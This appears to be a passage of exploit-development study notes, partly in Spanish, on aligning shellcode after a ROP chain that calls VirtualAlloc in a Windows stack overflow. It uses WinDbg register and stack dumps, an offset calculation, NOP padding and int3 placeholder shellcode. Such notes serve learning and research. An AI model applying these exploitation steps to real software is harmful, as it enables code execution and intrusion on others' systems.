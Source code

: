 To find the number of padding bytes we need, we return out of VirtualAlloc and obtain the **address of the first instruction we are executing on the stack.** 
Next, we dump the contents of the stack and **obtain the address of where our ROP chain ends in order to obtain its address and calculate the difference between the two.**
We are basically forcing our shellcode to be in the address that we previously inserted in the ROP gadget chain. We just calculate the bytes that are missing from such address and add NOPs so that the shellcode starts in such address instead of just after the ROP chain.
**Note: In Windows, the calling convention enforces that the called function decrements ESP to clear the stack arguments.** In Linux, the caller function clears the argument after the flow its returned to it (with add esp, 8). Basically, windows does the "add esp" in the ret.
En español para que quede más claro: Al setear ESP con el dummy address que hemos puesto en el rop chain, ESP está muy abajo (o arriba) de nuestro shellcode. Nuestro shellcode en realidad está mas arriba (o abajo) de la pila. Hay que ver la diferencia en bytes y añadir NOPs para que la dirección de salto que hemos puesto en la ROP chain coincida justo donde empieza nuestro shellcode.

Let's see where we landed after executing VirtualAlloc:
```c
0:055> p
eax=01a0e000 ebx=05d4a7e8 ecx=01a0e2c4 edx=77182da0 esi=42424242 edi=00000000
eip=01a0e504 esp=01a0e308 ebp=41414141 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
01a0e504 43              inc     ebx
```
eip = 0x01a0e504.
We can subtly see as the next instruction to execute is "43" meaning that we are jumping "inside" our shellcode. We have to jump to the start.

Let's see where does our ROP chain start:
```c
0:055> dd esp + 100
01a0e408  5050118e 42424242 505115a3 ffffffe8
01a0e418  5051579a 5051571f 50533cbf 43434343

0:055> db 01a0e424
01a0e424  43 43 43 43 43 43 43 43-43 43 43 43 43 43 43 43  CCCCCCCCCCCCCCCC
```

Our shellcode starts in 0x01a0e424. Let's calculate the offset from EIP:
```
0:055> ? 0x01a0e424 - 0x01a0e504
Evaluate expression: -224 = ffffff20
```
This means that we have to add 224 NOPs into our shellcode so the first starting byte is at address 0x01a0e504.
Our buffer starts fulfilling at 0x01a0e424, we will fill 224 nops and then the useful payload.
**Note: the offset dummy value that we store in the stack must not be very big as it is better to have a small offset and then fix by adding NOPs in our shellcode rather than jumping further than our shellcode. The offset must be inside our shellcode, that's for sure, so we can put nops and fix it afterwards. If not, we have to change the offset manually.**

After sending the payload with the exact offset, we can see that EIP points to exactly our shellcode:
```c
0:004> dds eip
024de504  cccccccc
0:004> dds eip - 1
024de503  cccccc43
```
**Note: the instruction CC (int 3, software breakpoint) has been executed in order to verify that everything works.**
